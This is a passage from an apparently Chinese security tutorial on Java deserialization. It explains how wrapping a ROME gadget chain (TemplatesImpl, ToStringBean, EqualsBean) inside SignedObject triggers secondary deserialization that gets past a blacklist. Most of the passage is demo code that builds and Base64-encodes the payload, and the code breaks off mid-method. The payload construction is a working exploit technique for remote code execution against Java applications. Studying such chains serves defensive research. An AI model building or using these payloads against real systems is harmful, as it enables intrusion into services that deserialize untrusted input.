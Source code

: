 而 this.content 由其构造函数传入  
[![](assets/1701071934-3636a0b878c5b2348ee37350e765cd31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223518-b0aa5bd4-8ad6-1.png)  
再反序列化入口有黑名单时，可以将序列化对象最为参数传入 SignedObject 的构造函数中，触发 SignedObject 的 getObject 方法，造成二次反序列化进行绕过  
demo:

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;

public class rome4 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);

        SignedObject s = makeSignedObject(hashmap);

        // 二次反序列化
        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class, "s");
        EqualsBean equalsBean2 = new EqualsBean(ToStringBean.class, toStringBean2);
        HashMap hashmap2 = new HashMap();
        hashmap2.put(equalsBean2, "1");
        util.setFieldValue(toStringBean2,"_obj",s);

        byte[] ser = util.serialize(hashmap2);
        String exp = Base64.getEncoder().encodeToString(ser);
```